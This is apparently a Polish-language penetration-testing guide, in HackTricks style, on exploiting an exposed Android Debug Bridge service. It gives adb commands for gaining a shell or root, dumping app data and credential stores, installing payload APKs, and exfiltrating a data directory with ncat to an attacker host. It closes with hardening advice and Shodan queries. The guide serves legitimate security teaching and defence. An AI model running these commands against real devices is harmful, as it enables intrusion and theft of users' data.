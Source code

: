 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Podstawowe informacje

Z [dokumentacji](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) to narzędzie wiersza poleceń do komunikacji z urządzeniami i emulatorami opartymi na Androidzie. Typowe działania obejmują instalowanie pakietów, debugowanie i uzyskiwanie interaktywnej powłoki Unix na urządzeniu.

- Historyczny domyślny port TCP: 5555 (klasyczny tryb "adb tcpip").
- Nowoczesne debugowanie bezprzewodowe (Android 11+) wykorzystuje parowanie TLS i odkrywanie usług mDNS. Port połączenia jest dynamiczny i odkrywany za pomocą mDNS; może nie być 5555. Parowanie odbywa się za pomocą adb pair host:port, a następnie adb connect. Zobacz uwagi poniżej dotyczące implikacji ofensywnych.

Przykład odcisku nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Połączenie

Jeśli znajdziesz ADB wystawione i dostępne, spróbuj szybko połączyć się i przeprowadzić enumerację:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Jeśli urządzenie wymusza uwierzytelnianie ADB (ro.adb.secure=1), będziesz musiał być wstępnie autoryzowany (USB RSA auth) lub użyć parowania debugowania bezprzewodowego Android 11+ (co wymaga jednorazowego kodu wyświetlanego na urządzeniu).
- Niektóre obrazy producentów, wersje inżynieryjne/userdebug, emulatory, telewizory, STB i zestawy deweloperskie udostępniają adbd bez uwierzytelnienia lub z adbd działającym jako root. W takich przypadkach zazwyczaj trafisz bezpośrednio do powłoki lub powłoki roota.

Aby uzyskać ogólny odniesienie do poleceń ADB, zobacz:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Szybkie Po Eksploatacji

Gdy masz powłokę, zweryfikuj uprawnienia i kontekst SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumeracja i przechwytywanie danych

- Lista aplikacji firm trzecich i ścieżek:
```bash
pm list packages -3
pm path <pkg>
```
- Jeśli masz roota (adb root lub su działa), możesz uzyskać dostęp do /data bezpośrednio. Jeśli nie, preferuj run-as dla aplikacji z możliwością debugowania:
```bash
# Bez roota, dla aplikacji z możliwością debugowania
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Z rootem
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Przydatne artefakty systemowe (wymagany root):
- /data/system/users/0/accounts.db i powiązane dane AccountManager
- /data/misc/wifi/ (konfiguracje/klucze sieciowe w starszych wersjach)
- Specyficzne dla aplikacji bazy danych SQLite i shared_prefs w /data/data/<pkg>

Możesz użyć tego do odzyskania wrażliwych informacji (np. sekrety aplikacji). Aby uzyskać informacje na temat rozważania danych Chrome, zobacz problem odniesiony [tutaj](https://github.com/carlospolop/hacktricks/issues/274).

### Wykonanie kodu i dostarczanie ładunku

- Zainstaluj i automatycznie przyznaj uprawnienia w czasie rzeczywistym:
```bash
adb install -r -g payload.apk         # -g przyznaje wszystkie uprawnienia w czasie rzeczywistym zadeklarowane w manifeście
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Uruchamiaj aktywności/usługi/nadawania bezpośrednio:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Przekierowywanie portów i pivotowanie

Nawet bez roota, adb może przekierowywać lokalne porty do portów urządzenia i odwrotnie. Jest to przydatne do uzyskiwania dostępu do usług lokalnych na urządzeniu lub do eksponowania usług atakującego na urządzeniu.

- Przekierowanie host->urządzenie (uzyskaj dostęp do lokalnej usługi urządzenia z hosta):
```bash
adb forward tcp:2222 tcp:22       # Jeśli urządzenie uruchamia SSH (np. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Ekspozycja lokalnego serwera debugowania aplikacji
```
- Odwrócone urządzenie->host (pozwól urządzeniu dotrzeć do usługi na twoim hoście):
```bash
adb reverse tcp:1080 tcp:1080     # Aplikacje urządzenia mogą teraz dotrzeć do host:1080 jako 127.0.0.1:1080
```
- Ekfiltracja plików przez gniazda (bez zapisów na sdcard):
```bash
# Na hoście: nasłuchuj
ncat -lvp 9000 > dump.tar
# Na urządzeniu: wyślij katalog jako tar (root lub run-as w zależności od potrzeb)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Debugowanie bezprzewodowe (Android 11+)

Nowoczesny Android implementuje bezprzewodowe debugowanie chronione TLS z parowaniem po stronie urządzenia i odkrywaniem mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notatki
- Porty są dynamiczne; nie zakładaj 5555. Nazwy usług mDNS wyglądają następująco:
- _adb-tls-pairing._tcp (parowanie)
- _adb-tls-connect._tcp (połączenie sparowane)
- _adb._tcp (legacy/plain)
- Jeśli mDNS jest filtrowany, klasyczne włączanie z pomocą USB może nadal działać w niektórych wersjach: `adb tcpip 5555`, a następnie `adb connect <ip>:5555` (do ponownego uruchomienia).

Implikacje ofensywne: jeśli możesz interagować z interfejsem użytkownika urządzenia (np. fizyczny dostęp lub błędna konfiguracja MDM mobilnego), aby włączyć debugowanie bezprzewodowe i zobaczyć kod parowania, możesz ustanowić długoterminowy sparowany kanał ADB bez kabla. Niektórzy producenci OEM udostępniają ADB przez TCP w obrazach inżynieryjnych/deweloperskich bez parowania — zawsze sprawdzaj.

## Wzmacnianie / Wykrywanie

Obrońcy powinni zakładać, że każdy dostępny adbd (TCP) stanowi krytyczne ryzyko.

- Wyłącz ADB i debugowanie bezprzewodowe, gdy nie są potrzebne. Cofnij autoryzacje debugowania USB w opcjach dewelopera.
- Upewnij się, że polityka sieciowa blokuje przychodzące TCP/5555 i odkrywanie ADB oparte na mDNS w nieufnych segmentach.
- Na urządzeniach pod twoją kontrolą:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # wyłącz nasłuchiwanie TCP (lub użyj: adb usb)
stop adbd; start adbd             # zrestartuj demon
```
- Monitoruj rekordy mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` w sieciach korporacyjnych i alerty dla nieoczekiwanych nasłuchiwaczy 5555.
- Inwentaryzuj niebezpieczne wersje: `getprop ro.debuggable`, `ro.build.type` i `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Odnośniki

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
